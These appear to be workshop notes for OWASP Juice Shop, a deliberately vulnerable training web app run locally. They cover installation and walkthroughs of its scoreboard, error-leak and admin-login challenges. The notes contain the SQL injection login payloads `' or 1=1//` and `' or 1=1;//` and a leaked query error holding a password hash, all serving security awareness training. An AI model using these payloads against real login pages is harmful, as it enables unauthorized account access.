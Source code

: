 # Juice Shop Project
* Top ten security things in OWASP
* Exploited vulnerabilities in developing websites
* How to translate to spring
* Understand OWASP top 10
* Evaluate Juice Shop
* Open Web Appliation Security Project

## Installation
* [Running OWASP Juice Shop](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/running.html)
* Install [Node.js](http://nodejs.org/)

```
git clone https://github.com/bkimminich/juice-shop.git
cd juice-shop
npm install
npm start
```
* The server begins listening on [port 3000](localhost:3000) by default
`' or 1=1//`
## What is being served?
* A virtual market which vends _mostly_ foods; particularly punny ones.
	* _Raspberry Juice made of Raspberry Pi Microcontrollers_
* Much like amazon, ebay, etsy, etc.



## Objective
* Awareness session
* To demonstrate what Average Joe sees from a typical virtual market
* To demonstrate how Hacker Joe can abuse and eventually break



## Why another broken webapp?
* First application written entirely in JS listed in [OWASP VWA Directory](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project)
* First broken webapp that uses the currently popular architecture of an SPA/RIA frontend with a RESTful backend

## What is OWASP?
* **OWASP**
	* Open
	* Web
	* Application
	* Security
	* Project

## What tools may be helpful?
* ZAP or BURP can be useful, but most automated scanners won't help much


## Challenges
### Challenge 1 - Find Scoreboard
* Navigate to `localhost:3000` to view the Juice Shop.
* Open console
* Open source view via the `CMD+U` shortcut.
* Open find-in-page via the `CMD+F` shortcut.
* Search for the string `score-board`
* Navigate to the respective `anchor` tag's `href` [attribute](http://localhost:3000/#/score-board).

### Challenge 2 - Provoke an error that is not gracefully handled
* Navigate to Juice Shop
* Log out
* Log in using
	* **Email:** `' or 1=1//`
	* **Password:** `_`
* Upon clicking the `login` button, an error message reveals a respective user and password

```JSON
{

    "error":{
        "message":"SQLITE_ERROR: near \"/\": syntax error",
        "stack":"SequelizeDatabaseError: SQLITE_ERROR: near \"/\": syntax error\n at Query.formatError (/Users/myUsername/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n at afterExecute (/Users/myUsername/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n at replacement (/Users/myUsername/dev/juice-shop/node_modules/sqlite3/lib/trace.js:19:31)\n at Statement.errBack (/Users/myUsername/dev/juice-shop/node_modules/sqlite3/lib/sqlite3.js:16:21)",
        "name":"SequelizeDatabaseError",
        "parent":{
            "errno":1,
            "code":"SQLITE_ERROR",
            "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
        },
        "original":{
            "errno":1,
            "code":"SQLITE_ERROR",
            "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
        },
        "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
    }

}
```


### Challenge 3 - Login as in Admin
* Navigate to Juice Shop
* Log out
* Log in using
	* **Email:** `' or 1=1;//`
	* **Password:** `_`
* Upon clicking the `login` button you should receive an challenge-achievement for logging in as an Administrator.



## Resources
* [Wiki page](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project)
